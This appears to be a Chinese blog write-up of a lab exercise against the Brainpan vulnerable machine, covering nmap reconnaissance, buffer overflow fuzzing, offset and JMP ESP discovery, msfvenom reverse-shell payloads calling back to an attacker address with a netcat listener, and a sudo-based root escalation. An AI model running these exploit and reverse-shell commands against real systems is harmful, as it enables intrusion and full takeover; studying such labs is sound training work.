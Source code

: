 #  实战缓冲区溢出漏洞攻击：从信息收集到成功提权   
原创 泷羽Sec—边酱  泷羽Sec-边酱   2025-02-06 14:04  
  
# 实战缓冲区溢出漏洞攻击：从信息收集到成功提权  
  
**今天**  
带大家深入网络安全的实战领域  
  
来一场刺激的**缓冲区溢出漏洞利用**  
之旅  
  
咱们以**Brainpan程序**  
为例，一步步揭开漏洞攻击的神秘面纱，但这仅仅是用于学习交流，可别拿去干坏事哦！  
  
  
## 一、信息收集：摸清目标底细  
### （一）扫描网段找目标  
  
咱先用nmap -sP 192.168.20.0/24  
扫描网段，这就好比在一片区域里挨家挨户敲门，看看哪些“房子”（主机）是有人（开机）的。扫描后发现了网关、靶机、本地攻击机等的IP地址，确定了咱们的攻击目标是192.168.20.128  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnlV9DpmC0te4lR6uq3P9FTyp4ib3luMvYQTTFFzNVrNV7XhTbeJn006w/640?wx_fmt=jpeg&from=appmsg "")  
### （二）扫描端口探服务  
  
接着用nmap -sV -p- 192.168.20.128  
扫描目标端口，这一步能知道目标主机上都开了哪些“门”（端口），以及门后面运行着什么“服务”。扫描结果显示，9999端口和10000端口是开放的，9999端口对应的服务不太明确，10000端口运行着一个简单的HTTP服务。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnecKMsqxMSzeYkjcQsn06jSwfsVDf55f3Em4NTiaa0dk5Km2squiaVvYA/640?wx_fmt=jpeg&from=appmsg "")  
### （三）访问Web找线索  
  
访问http://192.168.20.128:9999/  
，发现是个登录系统，但在浏览器上没法交互。再访问http://192.168.20.128:10000/  
，没找到啥有用信息。不过用dirb http://192.168.20.128:10000/  
枚举目录后，发现了/bin  
目录，还找到了brainpan.exe  
程序，这可是个关键线索！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnpsQ15pqZ6Or14ApPYOUGVcW3qo9HGC5C0WSfMWOzRuzKOJrRjEGWNw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnlMBZL9OicibWibn6XAS7OE0kuvxbPp6fKvjlOJsN3M48DtpDzjV3blzicw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnll9SPhw0YzkC3mVXicRic0PCK8BSbZ1VJ9TDhGBj5HrsRdQvtohXcAXw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnwFhARcTRicVsnibrpcqlkD2v6iblasfWzqITqJneJpm9iaicd8tcOEzkh4g/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDn2gktRDXaD0sOy2nO0ubCReX3nWlKUmHVFyYFrWtslJdRjvEnoCYDOg/640?wx_fmt=jpeg&from=appmsg "")  
## 二、缓冲溢出攻击：步步深入  
### （一）调试程序找漏洞  
  
把brainpan.exe  
拿到Windows 10 32位虚拟机上运行，同时打开Immunity Debugger调试器并导入这个程序的进程。这就像给程序做“体检”，能看到程序内部的各种情况。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDngNsKI4FXsaYzxdzpnXjmtU6EbpicgWbLgA5bzRRSYibjlGNu7sia06OTA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDn4Yz9o0EGVJ284bx2qPuaL1UVd8KdJbQzI3MPcz9RLkpzf409CxpkPA/640?wx_fmt=jpeg&from=appmsg "")  
### （二）生成脏数据测漏洞  
  
用Python生成一大串相同字符（比如print('A' * 600)  
），通过nc 192.168.20.128 9999  
连接到目标端口后注入这些数据，程序瞬间崩溃。查看调试器，发现EIP被覆盖了，这说明程序存在缓冲区溢出漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDneibjbp3XTITxUg0DMgLJHKlICo7ZpkIT7RJnQwZeXKKsDe97HlWMQtA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnF83sQbvhGdk5Tia83jCEJOl5EC5oy5jnicYia0U0oFFXFkWpyVO9vM6OQ/640?wx_fmt=jpeg&from=appmsg "")  
### （三）确定偏移量  
  
为了精准定位EIP的位置，用msf - pattern_create -l 600  
生成随机脏数据，再次注入。通过msf - pattern_offset -l 600 -q 覆盖EIP的值  
计算出偏移量是524。这样，我们就能精准控制EIP了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnN7KGUlW3vYzEp9Pj2pyib40AwkjeYvtNF7ibIeS9yWLkIxMqOxw0EAPQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnZmmXkx0t7gwLsibZdeGX7IMPD3X9Aou2vUa2MhyLdoqyniaxkWcyczUQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDn1tEzJsABvUbacUWDZ3RlH3LJzWlCs0icp2wUxZ8OocqnVu2S7eAf7XQ/640?wx_fmt=jpeg&from=appmsg "")  
### （四）测试溢出数据量和坏字符  
  
测试能溢出多少数据，计划用1000字符，结果发现还能注入472字节。接着用Python脚本注入包含各种字符的字符串来识别坏字符，在调试器里查看ESP的值，发现没有坏字符，这为我们后续构造攻击代码提供了便利。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnegxfuhRkIzicuT7NLvicwicYJsgcMdQvKbd57tVRGO2WjtLX0n9scFWzw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnzrsKuExTrw4awQDfQWRtZRQk5SLDfhIpDelw2LLOjW9Rrjw8G2A02g/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/09Snichfv11ricHCRq88GmVGkb9unO0iaDnoor0tjb0S17BDrpOeibOk1mkicBzA8zvgbfnoGBxqHffEejvfwFc5oZQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDn0oo3meibJhB62Anic9cDQmkUJDhiaeZ2q9EwaHOWDicFt4ZIbxEHKPHicKw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnZy4UtTAI4NxFrNuGwon9vsXNvHdSCKUbm7OkGLylLj7dLlqlhgF8jw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnc9eQGOkcB4e5jOianSCqxqV5iaib33DcmHOujwXY3mWl0qDtrKTiajLuicw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnXZ0XszpBEqACmMjBmicA1K3po9ECIcEWJjbsqcRZNpLziby5Q5W1h8Pg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnMA0yUqkZQ3fOURJjcuUckmP7FpJRmCjRAiaCXUU1HSJm6fac3FsYH4g/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDngFzkJicSTicm6Dv56KbI8t6uCUNTMHUzVBSIfJwJFKbiamNj7lK9zr9Aw/640?wx_fmt=jpeg&from=appmsg "")  
### （五）定位JMP ESP指令  
  
在kali里用msf - nasm_shell  
把jmp esp  
转换成十六进制FFE4  
，再用!mona find -s "\xff\xe4" -m "brainpan.exe"  
在程序进程里找到这个指令的地址0x311712f3  
，因为CPU读取地址是倒着读的，所以写入时要翻转成\xf3\x12\x17\x31  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnTZ9efeic99sMx3yf9eEUmFGNJHfjlOhujeoqibv7Ir8ISm9E3NDibCdMg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/09Snichfv11ricHCRq88GmVGkb9unO0iaDnSQiag8eH7eqiaiaLcgd3nicibiciboEX5gJPibkIFjKgCVIg60OSBDGxW7CpUg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnvhX34UWMJdBSCnianldy3L27oibS1Gic2PpvpsOapniaQOwTVNcgq0Yy4w/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnUnYAfM5hztRJxfCMUN3aRKFP9bUbBEiaG9zyiaMFKXKsTic3k1NedR8Iw/640?wx_fmt=jpeg&from=appmsg "")  
### （六）构建并注入payload  
  
用msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.100 LPORT=8888 -f c -b "\x00" EXITFUNC=thread  
生成反弹shell的代码，把这些代码和之前确定的偏移量、JMP ESP地址等组合成payload  
，通过Python脚本注入到程序里。在kali里用nc -lnvvp 8888  
监听端口，成功反弹shell，拿到了目标系统的权限！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDn3ryRan0ibaafOFz7kgibo1icIOb53SnO5nFEoiaZ3QXiccbicDicK19cFyPuA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/09Snichfv11ricHCRq88GmVGkb9unO0iaDnvLXFyibhycWeEGBHJGUQd2n9WVv7wGlHicRibbNMfjniclyjiauzKyNwYXA/640?wx_fmt=png&from=appmsg "")  
## 三、后续渗透：扩大战果  
### （一）收集系统信息  
  
用nmap -O 192.168.20.128  
收集系统类型，得知目标系统是Linux 2.6.32 - 3.10。然后针对这个系统，用msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.100 LPORT=8888 -f c -b "\x00" -e x86/shikata_ga_nai  
生成新的反弹shell代码，再次注入并成功拿到shell。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnx9SXx2uV0PgKXbdoKutRIXbMUYJVsUib7FkdeuW4n7xL5zaN62XBTsA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnkBh5BFHvlCV0AOGJXD0dRlDZUPTHB6MibqZ3bTv5FOvZQUwn5z1NRxg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnA7zF1kiaV7zksSyFJwUapkpeUPsjTiarSCV2A1thFM0p6F8ofDRf1bUw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDniatpdxrcS9G0awNSSjS24SBuF3vBhGGucSd0Ir3x7WKSNg8j9YsXroA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/09Snichfv11ricHCRq88GmVGkb9unO0iaDnvLXFyibhycWeEGBHJGUQd2n9WVv7wGlHicRibbNMfjniclyjiauzKyNwYXA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnasAjDPKAMesCibcYja34Q1Mpch0ibYNhEhdqT4F3gc3EKJ0Wy3kKhT8g/640?wx_fmt=jpeg&from=appmsg "")  
### （二）提权操作  
  
查看sudo -l  
，发现可以免密使用/home/anansi/bin/anansi_util  
这个命令。尝试运行这个命令并添加不同参数，最后通过sudo /home/anansi/bin/anansi_util manual ls  
成功提权，拿到了root权限！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnic8IicggKZuERTnZ78y4qoLtrcopK1sRSV7ZWO5Azuicyy8eNWOgla7mA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnbR88Aic314s2XJCc7jI1SFDfLJHPamRONcbHTjwYbSnDWgK7k0mY7kQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnpnQZWL997tcibD6Sy55z8TjlqNKtxpQiadnT7eXcly98q0dzFwoIM9Mg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnGjPwnsU0y6dsNfaib3ic7LuqqWq1vlXMqXQRnWTc7ic7Tm6COibusibhMEA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/09Snichfv11ricHCRq88GmVGkb9unO0iaDnn2ZeNqlyZ1SKvjqjGySIYsqjjiceKUGzseUnvutaSlAULkWOcyyaAIQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/09Snichfv11ricHCRq88GmVGkb9unO0iaDnvGQStib2nw7s5twhhhrgOtTIe1pI0UuVssYJf4ddy77p8GuRUQmQWRQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/09Snichfv11ricHCRq88GmVGkb9unO0iaDnDP15qp4ibibm8iaKemlIhP6KhXibQdOicmt7Ft7fT5ea1gpSHl8Lx31yxpg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
